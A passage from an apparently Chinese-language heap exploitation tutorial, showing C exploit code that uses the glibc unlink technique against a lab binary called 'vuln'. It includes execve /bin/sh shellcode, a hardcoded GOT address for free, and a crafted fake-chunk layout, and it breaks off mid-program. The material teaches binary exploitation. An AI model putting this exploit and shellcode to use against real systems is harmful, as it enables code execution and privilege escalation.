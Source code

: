 ## 3. 漏洞利用代码
理解了unlink技术之后，我们就可以写漏洞利用程序了。  

``` c
/* Program to exploit 'vuln' using unlink technique.
 */
#include <string.h>
#include <unistd.h>
#define FUNCTION_POINTER ( 0x0804978c )         //Address of GOT entry for free function obtained using "objdump -R vuln".
#define CODE_ADDRESS ( 0x0804a008 + 0x10 )      //Address of variable 'first' in vuln executable. 
#define VULNERABLE "./vuln"
#define DUMMY 0xdefaced
#define PREV_INUSE 0x1
char shellcode[] =
        /* Jump instruction to jump past 10 bytes. ppssssffff - Of which ffff would be overwritten by unlink function
        (by statement BK->fd = FD). Hence if no jump exists shell code would get corrupted by unlink function. 
        Therefore store the actual shellcode 12 bytes past the beginning of buffer 'first'*/
		/* eb 0a means jmp 10 bytes to next instruction. */ 
        "\xeb\x0assppppffff"
        "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
int main( void )
{
        char * p;
        char argv1[ 680 + 1 ];
        char * argv[] = { VULNERABLE, argv1, NULL };
        p = argv1;
        /* the fd field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* the bk field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* the fd_nextsize field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* the bk_nextsize field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* Copy the shellcode */
        memcpy( p, shellcode, strlen(shellcode) );
        p += strlen( shellcode );
        /* Padding- 16 bytes for prev_size,size,fd and bk of second chunk. 16 bytes for fd,bk,fd_nextsize,bk_nextsize 
        of first chunk */
        memset( p, 'B', (680 - 4*4) - (4*4 + strlen(shellcode)) );
        p += ( 680 - 4*4 ) - ( 4*4 + strlen(shellcode) );
        /* the prev_size field of the second chunk. Just make sure its an even number ie) its prev_inuse bit is unset */
        *( (size_t *)p ) = (size_t)( DUMMY & ~PREV_INUSE );
        p += 4;
        /* the size field of the second chunk. By setting size to -4, we trick glibc malloc to unlink second chunk.*/
        *( (size_t *)p ) = (size_t)( -4 );
        p += 4;
        /* the fd field of the second chunk. It should point to free - 12. -12 is required since unlink function
        would do + 12 (FD->bk). This helps to overwrite the GOT entry of free with the address we have overwritten in 
        second chunk's bk field (see below) */
```